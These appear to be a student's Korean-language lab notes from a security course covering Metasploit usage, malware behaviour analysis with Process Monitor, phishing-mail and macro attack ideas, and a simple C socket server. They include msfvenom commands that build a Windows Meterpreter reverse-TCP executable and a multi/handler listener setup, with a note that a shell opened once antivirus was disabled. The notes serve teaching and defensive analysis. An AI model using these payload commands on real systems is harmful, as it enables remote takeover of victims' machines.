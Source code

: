 # DAY 2

## 공격자 공격 방법 종류
  - EXE 파일
    1. 악성코드 생성도구(metasploit): 서버 백신 //서버백식은 악성코드 못잡은 경우 O
    2. DLL Injection
  - URL
  - MACRO
  - 웹 취약점
  - 모바일

## metasploit
### command
```
service postgresql start
service metasploit start
msfconsole
```
실행 안 될 경우
find /usr -name dalvik.rb -print <- 설정 파일 검색
마지막 줄 cert.not_after = cert.not_before + 3600 * 24 * 365 * 20
20 -> 2로 변경 후 저장

### command
```
search (search adobe)
use (exploit/linux/browser/adobe_flashplayer_aslaunch)
use windows/meterpreter/reverse_tcp //특정 공간 선택할 수 있음
back (cancel)
show options
set lhost 10.10.10.10
exploit //공격,      +encoders: 특정 기호로 변경
shellcode
bind (->, inbound)
reverse (<-, outbound)
```

#### senario
```
공격자가 피해자의 연결을 대기한다.
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 7070
set lhost 10.0.2.15
exploit
```

#### 악성코드 생성
커널에서
```
msfvenom -l payloads
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
c)
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
apk)
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
exe > mytext.exe
```
#### 공유폴더/파일전송
이더넷 인터페이스 통신으로 전송
```
file system/media/sf_폴더명
```
> mytext.exe 옮기니 알약이 감지함
> 백신 끄고 실행하니 쉘 따짐


### AI보안2일(5)
```
process Explorer, Process Monitior, Strings 설치 필요
```
process Explorer에서 
> mytest.exe를 실행하면(셀을 실행하면) cmd.exe -> conhost.exe 순서로 실행됨(이 두 개의 패턴이 반드시 나온다)

Process Monitior에서 Operation부분 보면
> Process Start: 프로세스 시작  
> RegRegister, RegQuery: 레지스트리에서 환경 설정하는 값을 읽거나 썼다.  
> TCP Conect: 통신 프로그램에서 클라이언트가 쓰는 명령어! -> 따라서 클라이언트임을 알 수 있음  
Process Monitior에서 Detail-Event부분 보면  
> path: 발신자의ip:6125-> 수신자의ip:7070 //1) 왼쪽에서 7070포트로 들어갔다, 2) 발신자와 수신자의 ip 모두 확인 가능  
Detail-Process부분의 Modules 보면  
> mswsock.dll, wsock32.dll : 통신 관련된 기능, 소켓!  
Detail-Stack 보면 메모리 주소나 어떤 dll 썼는가 같은 정보 볼 수 있음  
**Process Monitior에서 TCP copy, TCP receive 같은게 있는데 더블 클릭해서 Event Properties-> Stack에서 뭘 했는지 알아야 함!!  
**
이제 이것을 보고 분석하면 행위가 됨!(행위 분석)  
아까 백신이 잡은 것은 signiture -> 단순 문자열에 대한 분석이 었음  

Process Monitior의 행위의 결과값 분석하는 법
> csv 파일로 저장  
> csv 파일은 ,로 구분되는데 detail 내용 안에 ,가 들어있기 때문에 , 제거해야함 -> 1. 고정되지 않은 수의 ',' 제거하는 프로그램 개발 필요  
> 2. 로그의 양이 많기 때문에 DB에 적재해야함!  
> RegOPenKey, RegQueryValue, RegCloseKey -> 3개가 세트! : 목적) 레지스트리를 읽는다  
>   이것을 변환 처리 해야하는데 위와 같이 둘 건지 RegRead 하나 두고 레지스트리를 읽었습니다 -> RegRead 1로 표현할 건지 결정해야함  

> CreateFile 부분에서 dll 파일 생성한다는 부분 있는데 dll은 이미 있기 때문에 말이 안됨  
> Detail 부분 보면 Read Attribute, Open -> 결론적으로 dll을 읽었다!는 뜻 => Create File이 아니라 Read File로 이름 바꾸는게 정확  
> => EDR, APT 솔루션 이미 있음  
 
#### 결론(해야 할 것)
- 행위분석 수집 로그 프로그램 개발 //프로세스 모니터 자체를 개발 해야함
- 전처리 프로그램 개발(A ->1, NULL, 이상치) 
- 데이터분석

* 메모리, 시그니처 분석
ex. process Explorer와 메모장   
process Explore에서 메모장 우클릭->properties   
  - 통신 안하니깐 TCP 부분 비어 있음   
  - Thread 부분 켜놓고, 메모징 저장 누르면 이 과정 Thread 부분에 동적으로 추가됨    
      -> 윈도우는 동적으로 동작하기 때문에 내가 실행할 때 dll 임의로 추가할 수 있음 => DLL Injection   
  
#### 악성코드 메일 공격 방식
> 메일 자동 전송 1:다 공격 가능
> 수신확인 - 스크립트(html)
> 파이썬 코드로 메일 전송 가능(mime)

#### 워드 매크로(CDR?)
passwordchecker procexp에서 full dump 후 strings로 분석   
strings PasswordChecker.dmp > a.txt    
비밀번호, 메세지 등 문자열로 저장되어 있음    
활용 ex    
> c소켓 프로그래밍 <- 서버
> 워드 매크로 <- 클라이언트
> 악성 메일 보내서 클릭 여부 확인 가능

주체: 행위, 메모리, 실행파일    
환경: 얘도 알아야    



![day2_2](https://user-images.githubusercontent.com/50771111/88466051-756ab380-cf03-11ea-972a-a8c19b88ad2f.jpg)



### 서버
#### test123.c //server.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/socket.h>

#define  BUFF_SIZE   1024

int   main( void)
{
   int   server_socket;
   int   client_socket;
   int   client_addr_size;
   struct sockaddr_in   server_addr;
   struct sockaddr_in   client_addr;
   char   buff_rcv[BUFF_SIZE+5];
  server_socket  = socket( PF_INET, SOCK_STREAM, 0); //소켓 만듦
   memset( &server_addr, 0, sizeof( server_addr));
   server_addr.sin_family     = AF_INET; //인터넷
   server_addr.sin_port       = htons(7070); //포트 7070 -> 서버
   server_addr.sin_addr.s_addr= htonl( INADDR_ANY); //0.0.0.0 누구나 연결할 수 있음
bind( server_socket, (struct sockaddr*)&server_addr, sizeof( server_addr)); //위에서 세팅한 값 적용(bind)
listen(server_socket, 5); //최대 5명까지 붙을 수 있음
client_socket     = accept( server_socket, (struct sockaddr*)&client_addr, &client_addr_size); //accept : 기다리는 중
      read ( client_socket, buff_rcv, BUFF_SIZE);
      printf( "receive: %s\n", buff_rcv);
 close( client_socket);
 close(server_socket);
}
```

